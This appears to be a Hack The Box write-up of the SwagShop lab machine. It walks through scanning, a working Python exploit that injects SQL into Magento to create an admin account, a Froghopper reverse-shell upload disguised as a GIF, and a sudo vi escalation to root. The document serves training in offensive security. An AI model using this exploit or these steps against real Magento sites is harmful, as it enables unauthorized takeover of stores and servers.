 ```yaml
---
layout: PostSimple
date: 2019-12-11
title:     "Hack The Box - Swagshop"
tags: ['linux','easy','sudo','php']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/1.png)

We are going to pwn SwagShop from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/188>


Like always begin with our Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Lets Begin with HTTP 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/2.png)
It is Magento 

>Magento is an open-source e-commerce platform written in PHP. It is one of the most popular open e-commerce systems in the network. 

Run Gobuster on background

GObuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.140
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/27 09:57:45 Starting gobuster
===============================================================
/app (Status: 301)
/errors (Status: 301)
/favicon.ico (Status: 200)
/includes (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/lib (Status: 301)
/media (Status: 301)
/pkginfo (Status: 301)
/server-status (Status: 403)
/shell (Status: 301)
/skin (Status: 301)
/var (Status: 301)
===============================================================
2019/12/27 10:00:03 Finished
===============================================================
```

So I searched for exploits available, and I choose randomly
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/3.png)

>https://www.exploit-db.com/exploits/37977

This script will create admin account with username ``forme`` and password ``forme``
I changed the script's target url and executed.

```
 
import requests
import base64
import sys

target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"

```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/4.png)

It created an account , Now we can login with `` forme : forme ``

``http://10.10.10.140/index.php/admin``

and Im succesfully logged in.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/5.png)

## Froghopper Attack

I searched for any ways to reverse shell once we get authenticated and I found this

>https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper

According to the exploit I need to first enable ``Symlink``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/6.png)

Once its enabled 
We need to create Category so `` Catalog-> Manage Categories -> and add our malicious code with image ``.

I used pentest monkey reverse shell and added ``GIF89`` which makes the file as gif image.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/7.png)


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/8.png)
Upload it and save category.
Once its done move to `` Newsletter -> Newsletter Templates `` and inject the payload
Click Preview Template and start listener on your machine.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/9.png)

We got the shell.

## Privilege Escalation:

As always I started with ``sudo -l``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/10.png)

It looks like ``/usr/bin/vi`` can run any files in ``/var/www/html`` as sudo without root password

>https://gtfobins.github.io/gtfobins/vi/

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/11.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-swagshop/12.png)

We goot Root!



